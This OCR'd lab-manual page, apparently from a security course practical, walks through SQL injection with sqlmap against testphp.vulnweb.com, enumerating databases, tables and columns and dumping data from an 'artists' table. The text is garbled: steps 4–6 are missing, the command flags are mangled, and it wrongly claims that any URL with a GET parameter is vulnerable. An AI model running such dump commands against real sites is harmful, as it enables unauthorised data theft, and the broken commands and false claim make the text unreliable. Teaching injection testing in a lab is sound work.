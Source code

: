 

Aim: Practical on injecting Code in Data Driven Applications: SQL Injection.
Lab Objectives:

Test a website for SQL Injection Vulnerability
Lab Environment:
1. Administrative privileges
2. Web browser with Internet connection
3. Kali linux
Implementation:
1. Log in to Kali Linux
2. Open a web browser and enter the URL of the website you want to exploit, as shown in
figure If a URL, for example 

http://testphp.vulnweb.com/listproducts.php?cat=1,

has a GET parameter as cat=1, then it is vulnerable to SQL injection attack
3. You check is your website is vulnerable by replacing the value=1 with * in GET
parameter. If the website result in an error as shown in figure, then it is vulnerable
In output part3, you can see the executed payloads, available databases and backend database
version
7. Type the following command and press enter to list information about tables present in a
particular database, as shown in figure


sudo su
sqlmap-u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables


In figure 6b you can see that there are eight tables.
8. Type the following command and press enter to list information about the column
of a particular table, as shown in figure 7a

sqlmap-u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists -columns

9. Type the following command and press enter to dump the data from the column,
as shown in figure 8a

sqlmap-u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists-C aname -dump

figure 8a and 8b displays the output
